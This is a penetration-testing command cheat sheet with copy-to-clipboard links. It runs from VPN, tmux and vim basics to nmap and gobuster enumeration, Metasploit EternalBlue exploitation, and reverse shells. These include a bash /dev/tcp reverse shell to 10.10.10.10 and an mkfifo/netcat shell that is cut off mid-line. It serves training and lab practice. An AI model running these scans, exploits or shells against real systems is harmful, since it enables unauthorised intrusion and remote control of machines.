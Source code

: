 <script>
function copyCommand(command) {
    var dummy = document.createElement("textarea");
    document.body.appendChild(dummy);
    dummy.value = command;
    dummy.select();
    document.execCommand("copy");
    document.body.removeChild(dummy);
    alert("Copied command: " + command);
}
</script>

## Basic Tools

### General

- <a href="javascript:void(0);" onclick="copyCommand('sudo openvpn user.ovpn')">**sudo openvpn user.ovpn**</a>: Connect to VPN
- <a href="javascript:void(0);" onclick="copyCommand('ifconfig/ip a')">**ifconfig/ip a**</a>: Show our IP address
- <a href="javascript:void(0);" onclick="copyCommand('netstat -rn')">**netstat -rn**</a>: Show networks accessible via the VPN
- <a href="javascript:void(0);" onclick="copyCommand('ssh user@10.10.10.10')">**ssh user@10.10.10.10**</a>: SSH to a remote server
- <a href="javascript:void(0);" onclick="copyCommand('ftp 10.129.42.253')">**ftp 10.129.42.253**</a>: FTP to a remote server

### tmux

- <a href="javascript:void(0);" onclick="copyCommand('tmux')">**tmux**</a>: Start tmux
- <a href="javascript:void(0);" onclick="copyCommand('ctrl+b')">**ctrl+b**</a>: tmux: default prefix
- <a href="javascript:void(0);" onclick="copyCommand('prefix c')">**prefix c**</a>: tmux: new window
- <a href="javascript:void(0);" onclick="copyCommand('prefix 1')">**prefix 1**</a>: tmux: switch to window (1)
- <a href="javascript:void(0);" onclick="copyCommand('prefix shift+%')">**prefix shift+%**</a>: tmux: split pane vertically
- <a href="javascript:void(0);" onclick="copyCommand('prefix shift+\"')">**prefix shift+"**</a>: tmux: split pane horizontally

### Vim

- <a href="javascript:void(0);" onclick="copyCommand('vim file')">**vim file**</a>: vim: open file with vim
- <a href="javascript:void(0);" onclick="copyCommand('esc+i')">**esc+i**</a>: vim: enter insert mode
- <a href="javascript:void(0);" onclick="copyCommand('esc')">**esc**</a>: vim: back to normal mode
- <a href="javascript:void(0);" onclick="copyCommand('x')">**x**</a>: vim: Cut character
- <a href="javascript:void(0);" onclick="copyCommand('dw')">**dw**</a>: vim: Cut word
- <a href="javascript:void(0);" onclick="copyCommand('dd')">**dd**</a>: vim: Cut full line
- <a href="javascript:void(0);" onclick="copyCommand('yw')">**yw**</a>: vim: Copy word
- <a href="javascript:void(0);" onclick="copyCommand('yy')">**yy**</a>: vim: Copy full line
- <a href="javascript:void(0);" onclick="copyCommand('p')">**p**</a>: vim: Paste
- <a href="javascript:void(0);" onclick="copyCommand(':1')">**:1**</a>: vim: Go to line number 1.
- <a href="javascript:void(0);" onclick="copyCommand(':w')">**:w**</a>: vim: Write the file 'i.e. save'
- <a href="javascript:void(0);" onclick="copyCommand(':q')">**:q**</a>: vim: Quit
- <a href="javascript:void(0);" onclick="copyCommand(':q!')">**:q!**</a>: vim: Quit without saving
- <a href="javascript:void(0);" onclick="copyCommand(':wq')">**:wq**</a>: vim: Write and quit

### Pentesting

#### Service Scanning

- <a href="javascript:void(0);" onclick="copyCommand('nmap 10.129.42.253')">**nmap 10.129.42.253**</a>: Run nmap on an IP
- <a href="javascript:void(0);" onclick="copyCommand('nmap -sV -sC -p- 10.129.42.253')">**nmap -sV -sC -p- 10.129.42.253**</a>: Run an nmap script scan on an IP
- <a href="javascript:void(0);" onclick="copyCommand('locate scripts/citrix')">**locate scripts/citrix**</a>: List various available nmap scripts
- <a href="javascript:void(0);" onclick="copyCommand('nmap --script smb-os-discovery.nse -p445 10.10.10.40')">**nmap --script smb-os-discovery.nse -p445 10.10.10.40**</a>: Run an nmap script on an IP
- <a href="javascript:void(0);" onclick="copyCommand('netcat 10.10.10.10 22')">**netcat 10.10.10.10 22**</a>: Grab banner of an open port

#### Web Enumeration

- <a href="javascript:void(0);" onclick="copyCommand('gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt')">**gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt**</a>: Run a directory scan on a website
- <a href="javascript:void(0);" onclick="copyCommand('gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt')">**gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt**</a>: Run a sub-domain scan on a website
- <a href="javascript:void(0);" onclick="copyCommand('curl -IL https://www.inlanefreight.com')">**curl -IL https://www.inlanefreight.com**</a>: Grab website banner
- <a href="javascript:void(0);" onclick="copyCommand('whatweb 10.10.10.121')">**whatweb 10.10.10.121**</a>: List details about the webserver/certificates
- <a href="javascript:void(0);" onclick="copyCommand('curl 10.10.10.121/robots.txt')">**curl 10.10.10.121/robots.txt**</a>: List potential directories in robots.txt

#### Public Exploits

- <a href="javascript:void(0);" onclick="copyCommand('searchsploit openssh 7.2')">**searchsploit openssh 7.2**</a>: Search for public exploits for a web application
- <a href="javascript:void(0);" onclick="copyCommand('msfconsole')">**msfconsole**</a>: MSF: Start the Metasploit Framework
- <a href="javascript:void(0);" onclick="copyCommand('search exploit eternalblue')">**search exploit eternalblue**</a>: MSF: Search for public exploits in MSF
- <a href="javascript:void(0);" onclick="copyCommand('use exploit/windows/smb/ms17_010_psexec')">**use exploit/windows/smb/ms17_010_psexec**</a>: MSF: Start using an MSF module
- <a href="javascript:void(0);" onclick="copyCommand('show options')">**show options**</a>: MSF: Show required options for an MSF module
- <a href="javascript:void(0);" onclick="copyCommand('set RHOSTS 10.10.10.40')">**set RHOSTS 10.10.10.40**</a>: MSF: Set a value for an MSF module option
- <a href="javascript:void(0);" onclick="copyCommand('check')">**check**</a>: MSF: Test if the target server is vulnerable
- <a href="javascript:void(0);" onclick="copyCommand('exploit')">**exploit**</a>: MSF: Run the exploit on the target server if vulnerable

#### Using Shells

- <a href="javascript:void(0);" onclick="copyCommand('nc -lvnp 1234')">**nc -lvnp 1234**</a>: Start a nc listener on a local port
- <a href="javascript:void(0);" onclick="copyCommand('bash -c \'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1\'')">**bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'**</a>: Send a reverse shell from the remote server
- <a href="javascript:void(0);" onclick="copyCommand('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 
